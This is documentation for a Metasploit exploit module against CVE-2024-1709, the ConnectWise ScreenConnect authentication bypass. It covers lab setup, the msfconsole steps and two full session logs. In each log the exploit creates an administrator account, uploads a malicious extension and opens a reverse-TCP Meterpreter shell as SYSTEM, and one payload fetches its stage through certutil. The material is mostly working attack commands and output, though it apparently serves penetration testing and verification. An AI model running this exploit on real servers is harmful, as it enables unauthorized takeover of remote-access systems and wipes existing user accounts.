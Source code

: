 ## Vulnerable Application
This module exploits an authentication bypass vulnerability that allows an unauthenticated attacker to create
a new administrator user account on a vulnerable ConnectWise ScreenConnect server. The attacker can leverage
this to achieve RCE by uploading a malicious extension module. All versions of ScreenConnect version 23.9.7
and below are affected.

**Note:** The vulnerability will replace the ScreenConnect systems existing User.xml file, meaning existing user
accounts will be removed after exploitation.

## Testing
* Download a vulnerable version of the software by visiting: 
  * https://screenconnect.connectwise.com/download/archive, for example download the file
[ScreenConnect_23.9.7.8804_Release.msi](https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_23.9.7.8804_Release.msi)
* Request a trial license if you do not already have one.
* On a Windows system, click through the installer to install the product and complete the installation in your
web browser as instructed. 
* Once completed, you can login by visiting http://127.0.0.1:8040/ in your browser.

## Verification Steps
1. Start msfconsole
2. `set target 0`
3. `set payload windows/x64/meterpreter/reverse_tcp`
4. `set LHOST eth0`
5. `set RHOST <TARGET_IP_ADDRESS>`
6. `check`
7. `exploit`

## Scenarios

### Windows In-Memory

```
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 0
target => 0
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/windows/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     eth0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7.
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7.
[*] Created account: jpusoojm:ukvEw9bnQFwXkhqX. Note: This account will not be deleted by the module.
[*] Uploaded Extension: 93adc1a3-213c-c88a-56bc-dcf1351a4cad
[*] Removing Extension: 93adc1a3-213c-c88a-56bc-dcf1351a4cad
[*] Sending stage (201798 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:53443) at 2024-02-21 17:35:38 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.86.50 - Meterpreter session 1 closed.  Reason: User exit
```

#### Windows Command

```
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 1
target => 1
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/windows/
Display all 619 possibilities? (y or n)
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/windows/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pSPyWvtiaaH      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7.
msf6 exploit(windows/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7.
[*] Created account: xkerretc:Ctp1yP9Gh4htnE2s. Note: This account will not be deleted by the module.
[*] Uploaded Extension: b7eb38d2-ea46-f662-2c3e-d6e3071767f7
[*] Removing Extension: b7eb38d2-ea46-f662-2c3e-d6e3071767f7
[*] Sending stage (201798 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:53686) at 2024-02-21 17:37:46 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > 
```
